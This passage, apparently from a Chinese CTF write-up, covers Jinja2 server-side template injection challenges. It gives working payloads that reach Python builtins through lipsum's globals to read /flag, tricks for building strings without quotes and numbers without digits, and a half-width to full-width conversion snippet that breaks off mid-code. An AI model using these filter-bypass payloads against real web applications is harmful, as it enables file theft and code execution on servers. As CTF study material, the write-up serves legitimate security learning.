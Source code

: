**法2**

本来是想只跑被过滤的字符，但是发现引号被过滤了，利用引号拼接字符的方法就行不通了，

> 不过从羽师傅那学到可以用这样的形式进行拼接：
>
> ```jinja2
> {% set a=dict(o=a,s=a)|join %}
> ```
>
> 这样得到的a就是将该字典的键名拼接后的值，也就是os，这样的拼接无需单引号

参考羽师傅写个payload：

```jinja2
{% print (lipsum|attr(__globals__)).get(__builtins__).open('/flag').read() %}
```

```jinja2
{% set a=(config|string|list).pop(74)%}
{% set glob=(a,a,dict(globals=a)|join,a,a)|join() %}
{% set bult=(a,a,dict(builtins=a)|join,a,a)|join() %}
{% set b=(lipsum|attr(glob)).get(bult) %}
{% set chr=b.chr %}
{% print b.open(chr(47)~chr(102)~chr(108)~chr(97)~chr(103)).read() %}
```

## 370-过滤数字


> 这题ban了数字，可以用以下方式来获得数字（by[总结 - CTF中的SSTI0x01 | Morouu的大狗窝 ●'◡'● (morblog.cc)](https://morblog.cc/posts/21233/)）
>
> ```python
> {}|int # 0
> (not{})|int # 1
> ((not{})|int+(not{})|int) # 2
> ((not{})|int+(not{})|int)**((not{})|int+(not{})|int) # 4
> ((not{})|int,(not{})|int)|sum # 2
> 
> ((not{})|int,{}|int)|join|int # 10
> (-(not{})|int,{}|int)|join|int # -10
> 'aaxaaa'.index('x') # 2
> ((),())|count/length # 2
> ((),())|length # 2
> ```
>
> 也可用全角数字和一些一些 unicode 字符代替正常数字
>
> ```unicode
> ٠١٢٣٤٥٦٧٨٩
> 𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫
> 𝟘𝟙𝟚𝟛𝟜𝟝𝟞𝟟𝟠𝟡
> 𝟶𝟷𝟸𝟹𝟺𝟻𝟼𝟽𝟾
> 𝟬𝟭𝟮𝟯𝟰𝟱𝟲𝟳𝟴𝟵
> ```
>
> 看羽师傅有个半角转全角的代码，记一下，或者输入法换全角也可以打出来
>
> ```python
> def half2full(half):  
>  full = ''  
>  for ch in half:  
>      if ord(ch) in range(33, 127):  
>          ch = chr(ord(ch) + 0xfee0)  
>      elif ord(ch) == 32:  
>          ch = chr(0x3000)  